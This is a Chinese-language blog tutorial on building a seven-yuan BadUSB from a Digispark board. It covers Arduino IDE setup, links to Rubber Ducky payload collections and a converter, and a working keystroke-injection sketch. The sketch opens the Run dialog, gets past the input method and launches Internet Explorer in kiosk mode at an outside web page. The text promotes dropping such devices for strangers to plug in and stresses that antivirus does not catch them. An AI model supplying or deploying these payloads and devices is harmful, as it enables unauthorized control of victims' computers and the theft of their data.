7块钱的BadUSB，怎么玩

BadUSB最早是在2014年的黑帽大会上研究人员JakobLell和Karsten Nohl提出并展示的。不同于老式的U盘病毒，它利用了USB协议中的一个漏洞，通过模拟键盘、鼠标、网卡等从而让目标电脑执行恶意代码，达到控住主机或者窃取敏感信息等目的。
BadUSB的严重威胁主要来自于两个方面：
❶ 好奇心
捡到U盘肯定会好奇是谁丢的，或者里面是什么东西吧。在著名的美剧《黑客军团》中就出现了在停车场扔BadUSB来进行钓鱼的场景。
❷ USB协议漏洞
杀毒软件会对移动存储介质的内容进行查杀，但是肯定不会对接入的“键盘”进行查杀的。只要运行的payload是免杀的，那么BadUSB就不会被防护软件拦截。就目前看来，仍然没有一家的防护软件宣称能够阻拦这种攻击。
BadUSB现在有很多成熟的产品了，比如大名鼎鼎的hak5的USB RUBBER DUCKY，在美剧《黑客黑客》中，主角就是利用的这款BadUSB钓鱼从而控制目标主机的。

https://hakshop.com/products/usb-rubber-ducky-deluxe

https://malduino.com/

国内也有RadioWar基于Teensy++ 2.0 AT90USB1286芯片设计的FireGoose（烧鹅）http://wiki.radiowar.org/烧鹅

国内的部分极客也都在自己制作Badusb，大多是采用的Teensy 或者Arduino Leonardo，淘宝上还有厂商制作的U盘模样的Arduino Leonardo。

综上，基本常见的BadUSB价格都在$45刀（￥290）至￥45之间，那么作为一个使用方法大多为撒在地上、一次性的黑客工具来说，成本是一个很大的问题，那么今天就来介绍一款只需要几块钱就能买到的BadUSB——Digispark。
❶ 简介
Digispark是一个基于ATTINY85微控制器的USB开发板，体积小且价钱便宜，功能方面则没有Arduino般强大。代码与Arduino大同小异，更可贵的是使用Arduino IDE来开发。淘宝上直接搜索Digispark就能看到了，价格在7-10元不等。

❷配置环境
Digispark官网给出的有教程。http://digistump.com/wiki/digispark/tutorials/connecting
安装 arduino 的 IDE。https://www.arduino.cc/en/Main/Software直接从官网按照自己的操作系统下载并安装。
安装Digispark的驱动。（32位操作系统和64位操作系统安装程序不同，需注意）https://github.com/digistump/DigistumpArduino/releases/download/1.6.7/Digistump.Drivers.zip
在Arduino应用程序中，进入“文件”菜单并选择“首选项”

在附加开发板管理器网址内填入并点击确定
http://digistump.com/package_digistump_index.json
注意：如果您已经在该框中输入了更多网址，请点击框右侧的按钮，然后在新行中输入此网址。

进入“工具”菜单，然后选择“开发板”子菜单 - 选择“开发板管理器”

然后从类型下拉菜单中选择“贡献”， 选择“Digistump AVR Boards”包，然后单击“安装”按钮

您将在“开发板管理器”窗口的底部栏上看到下载进度，完成后它会在列表中的该项旁边显示“已安装”。（特别慢）
安装完成后，就可以在开发板中看到Digispark了。选择默认的Digispark (Default - 16.5mhz)。

注意：在调用上传之前，不需要插入Digispark
点击上传按钮。底部状态框现在会要求您插入Digispark - 此时您需要插入它 - 或者拔下并重新插入它。
❸ Payload
关于的Digispark的payload，可以参考甚至修改它的keyboard库文件（修改可以参考usb.org）。
https://github.com/BesoBerlin/DigiKeyboard_DE/blob/master/DigiKeyboard.h
说到BadUSB的payload，就不得不提到hak5的USB-Rubber-Ducky。
https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payloads
应该是目前BadUSB里面payload最全的了，如果你懒得写，可以直接使用USB-Rubber-Ducky的payload翻译脚本
https://github.com/toxydose/Duckyspark
直接将大黄鸭的payload翻译成Digispark可用的就行了。
当然，我还是建议自己来改DigiKeyboard.h 文件和payload。
这里给出我的payload抛砖引玉
恶搞payload
#include "DigiKeyboard.h"
void setup() {
DigiKeyboard.delay(2000);//开机延迟两秒钟，用于系统识别Digispark
DigiKeyboard.sendKeyStroke(0);
DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);//按R和win键，打开运行
DigiKeyboard.delay(100);
DigiKeyboard.sendKeyPress(KEY_LEFT_SHIFT);//按住左SHIFT，绕过输入法
DigiKeyboard.println("IEXPLORE -K HTTP://MTFLY.NET/X.HTM");
DigiKeyboard.sendKeyPress(0);//松开
DigiKeyboard.sendKeyStroke(KEY_ENTER);//按回车
DigiKeyboard.delay(2000);
DigiKeyboard.sendKeyStroke(KEY_A);//按A键，绕过第一次打开ie的提示框
}
void loop() {
}
注意：使用该payload时需要修改本地的DigiKeyboard.h，添加左shift键
#define KEY_LEFT_SHIFT 0xE1
这么一个这么廉价并且win10无驱运行的BadUSB，Digispark可以算是居家旅行,杀人灭口的必备良器了。

来源：安恒信息